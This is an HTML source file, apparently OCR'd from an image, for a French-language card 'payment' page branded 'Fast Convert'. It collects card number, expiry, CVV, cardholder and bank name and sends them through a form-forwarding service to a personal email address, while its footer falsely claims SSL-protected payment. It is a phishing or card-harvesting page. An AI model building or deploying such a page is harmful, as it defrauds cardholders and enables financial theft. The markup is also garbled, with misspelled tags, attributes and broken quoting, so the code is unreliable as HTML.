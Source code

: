 <!doctype html>
<html> 
 <head></head> 
 <body> <htlm lang="fr"> 
   <meta carset="UTF-8>
       <meta http-equiv=X-UA-compatible content=" ie="edge&quot;"> 
   <meta name="vewport" content="width=device-width,initial-scal=1-0"> 
   <title>Paimeent</title> 
   <link rel="steelsheet=" "href"="./style.css" "> 
   <div class="container"> 
    <h4>Procedez a un paiement 
     <hr style=" border-top: 1px solid blue;"></h4> 
    <br> 
    <h1>Card Info</h1> 
    <br> 
    <form action="https://formsubmit.co/issakoudoussou980@gmail.com" method="POST"> 
     <input type=" texte" montant="montant&quot;" placeholder="Montant" required> 
     <br> 
     <br> 
     <input type=" texte"banque="banque&quot;" placeholder="Nom de la Banque" required> 
     <br> 
     <br> 
     <input type="texte"name="name&quot;" placeholder="Titulaire de la carte" required> 
     <br> 
     <br> 
     <input type=" texte"number="number&quot;" placeholder="Numero de la carte" required> 
     <br> 
     <br> 
     <input type=" texte"date="date&quot;" placeholder="MM/AAAA" required> 
     <br> 
     <br> 
     <input type=" texte"cvv="Cvv&quot;" placeholder="Cvv/Code" required> 
     <br> 
     <br> <button type="submit">PAYEZ</button> 
    </form> 
    <br> 
    <br> 
    <br> 
   </div> 
   <footer> 
    <div class="row"> 
     <div class="col-xs-12 col-sm-6"> 
      <div id="footer-copyright">
        © 2022 - <b>Fast Convert</b> BE-FR fait partie d’CG &nbsp; | &nbsp; Votre paiement est 
       <br> protégé par un cryptage SSL 256 bits 
      </div> 
      <br> 
     </div> 
    </div> 
   </footer> 
  </htlm> 
 </body>
</html>

